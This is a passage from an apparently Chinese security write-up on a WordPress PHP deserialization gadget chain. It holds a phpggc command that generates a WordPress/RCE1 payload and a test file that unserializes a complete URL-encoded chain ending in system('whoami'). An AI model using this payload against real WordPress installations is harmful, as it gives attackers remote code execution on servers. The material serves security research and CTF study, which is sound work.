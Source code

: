 ```plain
<?php
    class hello{
        public function aaa(){
            echo "hello!";
        }
    }
    $hello = new hello();
    [$hello,"aaa"]();
?>
```

这样能够成功执行 hello 中的 aaa 方法，这在 CTF 中经常出现

**可变函数**：可变函数（Variable Functions）是一种特殊的语法，允许通过变量来调用函数。这意味着函数名可以存储在一个变量中，并在需要时通过该变量动态调用函数。

## 测试

**payload 生成**：

使用 phpggc 生成：

```plain
php phpggc WordPress/RCE1 system whoami -u
```

[![](assets/1707953698-d8e292fba181925a457fe091de1101e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208122857-933a861a-c63a-1.png)

**测试文件**：

```plain
<?php
require_once __DIR__.'/wp-load.php';
wp();
$str = "O%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BO%3A13%3A%22WP_Block_List%22%3A2%3A%7Bs%3A6%3A%22blocks%22%3Ba%3A1%3A%7Bs%3A4%3A%22Name%22%3Ba%3A1%3A%7Bs%3A9%3A%22blockName%22%3Bs%3A12%3A%22Parent+Theme%22%3B%7D%7Ds%3A8%3A%22registry%22%3BO%3A22%3A%22WP_Block_Type_Registry%22%3A1%3A%7Bs%3A22%3A%22registered_block_types%22%3BO%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BN%3Bs%3A6%3A%22parent%22%3BO%3A22%3A%22WpOrg%5CRequests%5CSession%22%3A3%3A%7Bs%3A3%3A%22url%22%3Bs%3A10%3A%22http%3A%2F%2Fp%3A0%22%3Bs%3A7%3A%22headers%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7Ds%3A7%3A%22options%22%3Ba%3A1%3A%7Bs%3A5%3A%22hooks%22%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A23%3A%22requests.before_request%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A15%3A%22http%3A%2F%2Fp%3A0%2FName%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7D%7D%7Di%3A1%3Bs%3A8%3A%22dispatch%22%3B%7D%7D%7D%7D%7D%7D%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BN%3B%7D";
$obj = unserialize(urldecode($str));
echo $obj;
?>
```
